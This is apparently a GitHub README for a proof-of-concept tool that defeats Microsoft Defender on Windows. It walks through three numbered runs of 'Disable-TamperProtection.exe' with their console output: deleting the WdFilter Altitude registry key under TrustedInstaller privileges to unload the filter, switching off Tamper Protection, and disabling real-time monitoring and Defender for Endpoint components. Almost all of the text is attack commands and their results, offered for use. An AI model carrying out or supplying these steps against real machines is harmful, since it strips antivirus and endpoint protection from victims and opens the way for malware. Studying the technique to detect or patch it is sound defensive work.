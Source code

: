 An example, to use the POC is as follows:

1) Unload WdFilter:

```
C:\Users\User\Desktop> .\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key Value: 328010
[+] Trusted Installer handle: 0000000000000120
[!] Spawning registry with TrustedInstaller privileges to delete WdFilter "Altitude" regkey.
[+] Created process ID: 3744 and assigned additional token privileges.
[+] Execute option 1 to validate!

# Upon 2nd exec if the above output repeats the target isn't vulnerable
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Enumerating WdFilter information:
        Next:   0 | Frame ID:   0 | No. of Instances:   4 | Name:        wdfilter | Altitude:          328010
[+] Restart the system or wait a few minutes for WdFilter to unload.
[+] Execute option 1 to validate!

# Restart to crash and unload WdFilter
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] WDFilter has been successfully unloaded, use option 2 to disable Tamper Protection.
```

2) Disable Tamper Protection:

```
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 2
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Trusted Installer handle: 00000000000000C4
[!] Spawning registry with TrustedInstaller privileges to alter Defender "TamperProtection" regkey from 5 to 4.
[+] Created process ID: 7748 and assigned additional token privileges.
[+] Use option '3' to finally Disable AV/MDE.
```

3) Disable Defender / MDE components:

```
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 3
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Trusted Installer handle: 000000000000011C
[!] Spawning registry with TrustedInstaller privileges to Disable 'RealtimeMonitoring' regkey.
[+] To disable other components of defender check source.
[+] Created process ID: 8040 and assigned additional token privileges.
```

*NOTE: Even though Tamper Protection is effectively disabled now, it takes a reboot to render the same change in the "Security Settings" GUI Prompt.*

The POC manages to semi-permanently disable Real-time protection (grey out) after Tamper Protection is disabled. This can be remediated using option 4.
